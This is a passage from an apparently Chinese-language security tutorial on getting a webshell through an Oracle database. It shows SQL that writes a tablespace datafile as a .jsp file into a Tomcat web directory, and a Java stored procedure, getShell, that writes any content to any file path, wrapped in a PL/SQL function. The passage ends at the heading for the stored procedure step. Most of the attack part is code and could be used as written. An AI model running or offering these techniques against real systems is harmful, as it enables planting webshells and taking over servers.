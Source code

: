 ![enter image description here](http://drops.javaweb.org/uploads/images/01eec4899cb393ef4bc3df571bdebceac06ff5f1.jpg)

在低权限下getshell： ￼![enter image description here](http://drops.javaweb.org/uploads/images/1bcbc88bc2117b80170414a2df25278d1fda6e44.jpg)

执行以下SQL创建表空间：

```
create tablespace shell datafile 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/shell.jsp' size 100k nologging ;
CREATE TABLE SHELL(C varchar2(100)) tablespace shell;
insert into SHELL values('hello world');
commit;
alter tablespace shell offline;
drop tablespace shell including contents;

```

这方法是能写文件，但是好像没发现我的hello world，难道是我打开方式不对？

Oracle SQLJ编译执行Java代码：

众所周知，由于sun那只土鳖不争气居然被oracle给收购了。

不过对Oracle来说的确是有有不少优势的。

SQLJ是一个与Java编程语言紧密集成的嵌入式SQL的版本，这里"嵌入式SQL"是用来在其宿主通用编程语言如C、C++、Java、Ada和COBOL）中调用SQL语句。SQL翻译器用SQLJ运行时库中的调用来替代嵌入式SQLJ语句，该运行时库真正实现SQL操作。这样翻译的结果是得到一个可使用任何Java翻译器进行编译的Java源程序。一旦Java源程序被编译，Java执行程序就可在任何数据库上运行。SQLJ运行环境由纯Java实现的小SQLJ运行库（小，意指其中包括少量的代码）组成，该运行时库转而调用相应数据库的JDBC驱动程序。

SQLJ可以这样玩：首先创建一个类提供一个静态方法： ￼![enter image description here](http://drops.javaweb.org/uploads/images/780a6816e802b12a2cce249be6800c87bcd1c87d.jpg)

其中的getShell是我们的方法名，p和才是参数，p是路径，而c是要写的文件内容。在创建Java存储过程的时候方法类型必须是静态的static

执行以下SQL创建Java储存过程：

```
create or replace and compile
java source named "getShell"
as public class GetShell {public static int getShell(String p, String c) {int RC = -1;try {new java.io.FileOutputStream(p).write(c.getBytes());RC = 1;} catch (Exception e) {e.printStackTrace();}return RC;}}

```

创建函数：

```
create or replace
function getShell(p in varchar2, c in varchar2) return number
as
language java
name 'util.getShell(java.lang.String, java.lang.String) return Integer';

```

创建存储过程：
